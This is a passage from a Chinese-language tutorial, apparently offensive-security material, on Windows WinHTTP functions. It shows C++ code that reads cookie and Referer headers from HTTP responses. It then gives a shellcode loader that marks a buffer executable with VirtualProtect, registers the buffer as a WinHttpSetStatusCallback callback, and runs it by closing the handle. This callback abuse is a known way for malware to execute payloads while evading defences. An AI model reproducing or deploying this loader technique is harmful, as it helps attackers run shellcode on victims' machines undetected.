 例如：  
以下代码即可获取cookie  
`bResults是前面调用WinHttpSendRequesth和WinHttpReceiveResponse后的布尔值`

```php
if (bResults){
    bResults = WinHttpQueryHeaders(hRequest, WINHTTP_QUERY_RAW_HEADERS_CRLF, WINHTTP_HEADER_NAME_BY_INDEX, NULL, &dwSize, WINHTTP_NO_HEADER_INDEX);
    if (GetLastError() == ERROR_INSUFFICIENT_BUFFER)
    {
        lpOutBuffer = new WCHAR[dwSize / sizeof(WCHAR)];
        bResults = WinHttpQueryHeaders(hRequest, WINHTTP_QUERY_CUSTOM, "cookie", lpOutBuffer, &dwSize, WINHTTP_NO_HEADER_INDEX);
        printf("%s",lpOutBuffer);
    }
}
```

想要获取其他http头信息，把第二个WinHttpQueryHeaders的第三个参数'cookie'改成对应的即可，例如获取Referer  
`bResults = WinHttpQueryHeaders(hRequest, WINHTTP_QUERY_CUSTOM, "Referer", lpOutBuffer, &dwSize, WINHTTP_NO_HEADER_INDEX);`

1. WinHttpSetStatusCallback  
    可以设置一个回调函数，我们使用它来加载我们的shellcode,当失败时返回WINHTTP\_INVALID\_STATUS\_CALLBACK  
    <https://docs.microsoft.com/en-us/windows/win32/api/winhttp/nf-winhttp-winhttpsetstatuscallback>

```php
WINHTTP_STATUS_CALLBACK WinHttpSetStatusCallback(
  [in] HINTERNET       hInternet,//要设置回调的句柄，这里我们使用WinHttpOpen返回的句柄
  [in] WINHTTP_STATUS_CALLBACK lpfnInternetCallback,//指向WINHTTP_STATUS_CALLBACK类型的回调函数的指针
  [in] DWORD           dwNotificationFlags,//这里我们填WINHTTP_CALLBACK_FLAG_HANDLES，它的意思就是当我们调用WinHttpCloseHandle关闭句柄的时候，会调用回调函数，从而执行我们的shellcode
  [in] DWORD_PTR       dwReserved//此值必须为NULL
);
```

例如：

```php
char shellcode[]="xxxxxx";
DWORD ppp;
VirtualProtect(&shellcode, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &ppp);

HINTERNET hopen = WinHttpOpen(L"User", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);

WINHTTP_STATUS_CALLBACK callback = WinHttpSetStatusCallback(hopen, (WINHTTP_STATUS_CALLBACK)&shellcode, WINHTTP_CALLBACK_FLAG_HANDLES, NULL);

if (callback == WINHTTP_INVALID_STATUS_CALLBACK) {
    cout << "[*] WinHttpSetStatusCallback失败" << endl;
    return -1;
}；

cout << "[*] WinHttpSetStatusCallback 成功" << endl;
WinHttpCloseHandle(hopen); 
//因为设置了WINHTTP_CALLBACK_FLAG_HANDLES，所以当我们调用WinHttpCloseHandle关闭句柄的时候会执行我们的shellcode
```

